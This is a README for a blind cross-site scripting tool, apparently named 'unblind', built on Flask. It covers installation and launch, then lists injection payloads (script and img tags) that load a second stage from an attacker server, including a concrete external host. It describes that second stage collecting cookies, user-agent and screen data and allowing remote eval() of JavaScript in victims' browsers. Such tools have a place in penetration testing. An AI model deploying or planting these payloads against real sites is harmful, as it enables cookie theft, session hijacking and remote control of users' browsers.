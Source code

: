 
>> The tool is not beautiful neither fully functionnal. Need improvements ! Be my guest !

First, install dependencies:
```
$ pip3 install Flask
$ pip install Flask-SQLAlchemy
$ pip install flask_login
$ pip install pyopenssl
```

Then, create the database and set the environment and start the app:
```
$ python3
>>> from unblind import db, create_app
>>> db.create_all(app=create_app())
>>> exit()
$ export FLASK_APP=project
$ export FLASK_DEBUG=1
$ flask run -h 0.0.0.0 -p 5000
```

The first time you log on, you will need to create a user/password. Choose them well.

Then trigger a Blind XSS with something like:
```
"><script src='://<ip>:<port>/unblind/xss/unique_str'></script>
"><script src='http://squaredcircle.re:5000/unblind/xss/unique_str'></script>
"><img src='http://squaredcircle.re:5000/unblind/xss/unique_str'/>
```

There is a __payloads__ tab as you can see below. This tab shows basic payloads that you can __url encode__ if you'd like:

![payloads list](/images/payloads.png?raw=true "Payloads list")

Once you triggered an xss, you'd like to go to the __unblind__ tab in order to view the result as it can be shown below:

![xss](/images/xss.png?raw=true "XSS")

As you can see, there are 2 stages. The first stage is your payload. That payload, then downloads and executes the second stage.
The second stage grabs some information like the cookies, the screen resolution, the user-agent and so on.

You have the possibility to interact with the second stage. On the right of the table, there is a __textarea__ that allows you to __eval()__ a javascript command.